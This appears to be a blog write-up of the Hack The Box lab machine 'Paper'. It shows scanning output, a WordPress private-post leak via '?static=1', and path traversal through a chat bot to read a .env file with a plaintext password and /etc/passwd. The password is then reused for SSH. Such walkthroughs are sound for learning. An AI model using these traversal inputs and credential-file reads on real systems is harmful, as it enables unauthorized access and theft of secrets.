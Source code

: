 ```yaml
---
title: '[HTB] Paper' 
date: 2022-05-15 2:24 AM
categories: [HTB, Machines]
tags: [easy, wpscan, wordpress, linux, machines]
permalink: /:categories/:title
img_path: /assets/img/htb/machines/paper
---
```


![banner](banner.png) 

## Enumeration

### NMAP

```console
┌──(kali㉿kali)-[~]
└─$ nmap -sV 10.10.11.143
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-14 05:07 EDT
Nmap scan report for 10.10.11.143
Host is up (0.045s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.24 seconds
```
> We see port 80 open, so then we have to go to the website and see that it is a default Apache in CentOS. 

### Domain

After doing some research I found a header a little suspicious on the Network Monitor. 

![header](header.png)
_Suspicious X-Backend-Server header_

That is a domain for sure, but when we navigate, we have a 404 error... I figured out that the only thing to do is add the domain to **/etc/hosts** and see what happens.

![wappalyzer](wappalyzer.png) 
_Wappalyzer extension_

> When we enter into the website, Wappalyzer told us it is a WordPress page. So let's take a look with WPScan.

### WPScan

```console
┌──(kali㉿kali)-[~]
└─$ wpscan --url http://office.paper
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22

       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://office.paper/ [10.10.11.143]
[+] Started: Sun May 15 05:24:33 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
 |  - X-Powered-By: PHP/7.2.24
 |  - X-Backend-Server: office.paper
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] WordPress readme found: http://office.paper/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] WordPress version 5.2.3 identified (Insecure, released on 2019-09-05).
```

> Version 5.2.3 is vulnerable!

### Vulnerability

Searching for vulnerabilities of the WordPress version I found one which shows hidden posts.

```console
┌──(kali㉿kali)-[~]
└─$ searchsploit WordPress 5.2.3                               
-------------------------------------------------------------------------------------------------------
 Exploit Title                                                           |  Path
-------------------------------------------------------------------------------------------------------
WordPress Core 5.2.3 - Cross-Site Host Modification                      | php/webapps/47361.pl
WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts  | multiple/webapps/47690.md
```

If we take a look into the second vulnerability...

```
So far we know that adding `?static=1` to a wordpress URL should leak its secret content

Here are a few ways to manipulate the returned entries:

- `order` with `asc` or `desc`
- `orderby`
- `m` with `m=YYYY`, `m=YYYYMM` or `m=YYYYMMDD` date format


In this case, simply reversing the order of the returned elements suffices and `http://wordpress.local/?static=1&order=asc` will show the secret content:
```

## Foothold

On `http://office.paper/?static=1` an article named `test` appears.  There is one text that stands out:

```
# Secret Registration URL of new Employee chat system

http://chat.office.paper/register/8qozr226AhkCHZdyY
```

So now, we add the domain to **/etc/hosts** and navigate into the website, register and login.

```
Hello. I am Recyclops. A bot assigned by Dwight. I will have my revenge on earthlings, but before that, I have to help my Cool friend Dwight to respond to the annoying questions asked by his co-workers, so that he may use his valuable time to... well, not interact with his co-workers.
Most frequently asked questions include:
- What time is it?
- What new files are in your sales directory?
- Why did the salesman crossed the road?
- What's the content of file x in your sales directory? etc.
Please note that I am a beta version and I still have some bugs to be fixed.
How to use me ? :
1. Small Talk:
You can ask me how dwight's weekend was, or did he watched the game last night etc.
eg: 'recyclops how was your weekend?' or 'recyclops did you watched the game last night?' or 'recyclops what kind of bear is the best?
2. Joke:
You can ask me Why the salesman crossed the road.
eg: 'recyclops why did the salesman crossed the road?'
<=====The following two features are for those boneheads, who still don't know how to use scp. I'm Looking at you Kevin.=====>
For security reasons, the access is limited to the Sales folder.
3. Files: eg: 'recyclops get me the file test.txt', or 'recyclops could you send me the file src/test.php' or just 'recyclops file test.txt'
4. List: You can ask me to list the files
5. Time: You can ask me to what the time is
eg: 'recyclops what time is it?' or just 'recyclops time'
```

> We see a bot inside the general chat after login. The general chat is read-only so let's talk to the bot privately.

Then we use `file` and `list` command in the bot chat to access to the system. There is a user.txt but we don't have access to it.  We need another method to enter the system...

```
 file ../user.txt 

 Access denied.
```

After looking for something I finally found something interesting:

```
 <!=====Contents of file ../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
```

> I tried to login with this credentials into ssh but it is incorrect. Let's see the users on **/etc/passwd**. This 2 users have /bin/bash as shell...

```bash
rocketchat:1001:1001::/home/rocketchat:/bin/bash
dwight:1004:1004::/home/dwight:/bin/bash
```
{: file="/etc/passwd"}

> With the second user we have login into the system via SSH! 

Let's see the `user.txt` file! And here is the FLAG.

### System own

To get root permissions we only need to execute the file on home named `exp.py`.

```console
[root@paper ~]# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

> Now we got **ROOT**! 

For the **root FLAG** we go to personal directory of root and see `root.txt`.

## Conclusion

It is a machine that, for people who are starting out, is very good. The use of the bot to get the credentials was interesting. This is the first of many!
